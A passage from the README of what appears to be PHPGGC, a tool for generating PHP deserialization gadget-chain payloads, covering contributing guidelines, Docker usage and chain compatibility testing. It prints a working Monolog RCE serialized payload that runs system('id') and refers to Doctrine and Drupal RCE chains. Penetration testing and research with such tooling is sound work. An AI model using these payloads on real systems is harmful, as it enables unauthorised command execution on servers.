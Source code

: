 This allows you to tweak the parameters or write exploits more easily.
*Note: This is pretty experimental at the moment, so please, report bugs*.


# Contributing

Pull requests are more than welcome. Please follow these simple guidelines:

- `__destruct()` is always the best vector
- Specify at least the version of the library you've built the payload on
- Do not include unused parameters in the gadget definition if they keep their default values. It just makes the payload bigger.
- Respect code style: for instance, opening brackets `{` are on a new line, and arrays should be written as `[1, 2, 3]` instead of the old, `array(1, 2, 3)`, notation.

Codewise, the directory structure is fairly straightforward: gadgets in _gadgets.php_, description + logic in _chain.php_.
You can define pre- and post- processing methods, if parameters need to be modified.
Hopefully, the already implemented gadgets should be enough for you to build yours.
Otherwise, I'd be glad to answer your questions.

The `--new <framework> <type>` command-line option can be used to create the directory and file structure for a new gadget chain.
For instance, use `./phpggc -n Drupal RCE` would create a new Drupal RCE gadgetchain.


# Docker

If you don't want to install PHP, you can use `docker build . -t 'phpggc'`.

To generate a gadget chain.

```
$ docker run phpggc Monolog/rce1 'system' 'id'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:2:"id";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"system";}}}
```

To run `test-gc-compatibility.py` from docker.
```
$ docker run --entrypoint './test-gc-compatibility.py' phpggc doctrine/doctrine-bundle:2.2,2.7.2 doctrine/rce1 doctrine/rce2
Runing on PHP version ('PHP 8.1.13 (cli) (built: Nov 30 2022 21:53:44) (NTS).
Testing 2 versions for doctrine/doctrine-bundle against 2 gadget chains.

┏━━━━━━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━┳━━━━━━━━━━━━━━━┳━━━━━━━━━━━━━━━┓
┃ doctrine/doctrine-bundle ┃ Package ┃ doctrine/rce1 ┃ doctrine/rce2 ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━╇━━━━━━━━━━━━━━━╇━━━━━━━━━━━━━━━┩
│ 2.2                      │   OK    │      OK       │      OK       │
│ 2.7.2                    │   OK    │      OK       │      KO       │
└──────────────────────────┴─────────┴───────────────┴───────────────┘
```

# License

[Apache License 2.0](LICENSE)
